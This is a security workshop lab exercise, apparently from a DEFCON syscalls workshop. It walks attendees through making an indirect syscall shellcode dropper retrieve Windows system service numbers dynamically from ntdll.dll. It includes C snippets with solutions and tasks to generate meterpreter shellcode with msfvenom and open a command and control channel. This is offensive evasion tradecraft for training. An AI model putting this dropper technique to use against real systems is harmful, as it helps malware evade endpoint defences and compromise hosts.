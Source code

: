 ## LAB Exercise 6: Dynamic Retrieval from SSNs

In the first bonus chapter we want to further develop our indirect syscall dropper. Until now, we had the limitation that our dropper would only work in the context of the Windows version that was used to debug the system service numbers (SSNs) for the used native functions ``NtAllocateVirtualMemory``, ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``. Why? Because to get the basics for direct and indirect syscalls, we have implemented the SSNs as hardcoded values in our assembly resource file. But normally, when we are preparing for a red team engagement, we do not know the Windows version of our target client. So we want to make our indirect syscall dropper a bit more flexible and instead of hardcoding the SSNs, we want to retrieve them dynamically at runtime from ntdll.dll. 
  

## Exercise 6 Tasks: 
### Develop your direct or indirect syscall dropper to dynamically retrieve SSNs.
| Task Nr.   | Task Description |
| :---:      | ---              |
|  1         | Download the direct or indirect syscall POC from the code section of this chapter.                 |
|  2         | Most of the code is already implemented. However, to implement the dynamic SSN retrieval functionality, you will need to complete the following tasks: <ul><li>Complete the missing code in the main code section</li><li>Complete the missing code in the ``syscalls.asm`` file</li></ul>                  |
|  3          | Create a staged x64 meterpreter shellcode with msfvenom, copy it to the poc and compile the poc.                 |
|  4          | Create and run a staged x64 meterpreter listener using msfconsole.                  |
| 5           | un your compiled .exe and check that a stable command and control channel opens.                 |


### Analyse the Dropper
| Task Nr.   | Task Description |
| :---:      | ---              |
| 6          | Use **x64dbg** to debug or analyse the dropper. <ul><li>What differences can you see between a dropper with hardcoded SSNs and a dropper that dynamically retrieves SSNs at runtime?</li></ul>                |

## Visual Studio
You can download the direct- or indirect syscall poc from the code section of this chapter. To retrieve the SSNs dynamicalla at runtime from ntdll.dll, we have to implement the following code. 

### Start Address Native Function
In order to be able to dynamically retrieve the SSN for each of the native functions used in our code, we first need to define a pointer to a function that holds the start address of that function. If you remember, this part of the code was already implemented in the chapter where we built the indirect syscall dropper, because we used the same principle to get the address for the syscall instruction of each function. This means that part of the code in the main file is already implemented.  
<details>
<summary>Code</summary>
    
```C
// Declare and initialize a pointer to the NtAllocateVirtualMemory function and get the address of the NtAllocateVirtualMemory function in the ntdll.dll module
    UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    UINT_PTR pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    UINT_PTR pNtCreateThreadEx = (UINT_PTR)GetProcAddress(hNtdll, "NtCreateThreadEx");
    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress(hNtdll, "NtWaitForSingleObject");     
```
     
</details>

### Memory Address System Service Number (SSN)
In the next step, we want to get the effective memory address from the ``SSN`` in the ``syscall stub`` of the native function by adding the necessary offset to the start address of the native function that we retrieved in the previous step. To get the memory address from the syscall instruction, we need to add ``4-bytes``. Why 4-bytes? Because this is the offset calculated from the start address of the native function.

<details>
    <p align="center">
<img width="1000" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/1b6bd7f1-1323-48d1-bcb2-83d4395c49bb"> 
    </p>
</details>   


In the direct- or indirect syscall poc in this chapter, this code is implemented only for the native function ``NtAllocateVirtualMemory`` and must be completed by the workshop attendee based on the code scheme for ``NtAllocateVirtualMemory`` which can be seen in the code section below.  
<details>
<summary>Code</summary>
    
```C
// Here we're retrieving the system call number for each function. The syscall number is used to identify the syscall when the program uses the syscall instruction.
    // It's assumed that the syscall number is located 4 bytes into the function.
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];     
```
     
</details>   

If it was not possible for you to complete this code section, don`t worry it will work next time and additionally you can find the complete code in the following solution section. 

<details>
<summary>Solution</summary>
    
```C
// Here we're retrieving the system call number for each function. The syscall number is used to identify the syscall when the program uses the syscall instruction.
    // It's assumed that the syscall number is located 4 bytes into the function.
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
    wNtWriteVirtualMemory = ((unsigned char*)(pNtWriteVirtualMemory + 4))[0];
    wNtCreateThreadEx = ((unsigned char*)(pNtCreateThreadEx + 4))[0];
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];    
```
     
</details>

### Global Variables
To store the memory address from the SSN of the respective native function, and also to be able to provide the memory address later for the assembly code in the ``syscalls.asm`` file, we declare a global variable for each SSN address, which is declared as a DWORD. Also in this case in the direct- or indirect syscall poc of this chapter, this code is implemented only for the native function ``NtAllocateVirtualMemory`` and must be completed by the workshop attendee based on the code scheme for ``NtAllocateVirtualMemory`` which can be seen in the code section below.

<details>
<summary>Code</summary>
    
```C
// Global DWORD (double words) that will hold the SSN
DWORD wNtAllocateVirtualMemory;       
```
     
</details>   

If it was not possible for you to complete this code section, don`t worry it will work next time and additionally you can find the complete code in the following solution section. 

<details>
<summary>Solution</summary>
    
```C
// Declare global variables to hold the syscall instruction addresses
DWORD wNtAllocateVirtualMemory;
DWORD wNtWriteVirtualMemory;
DWORD wNtCreateThreadEx;
DWORD wNtWaitForSingleObject;     
```
     
</details>
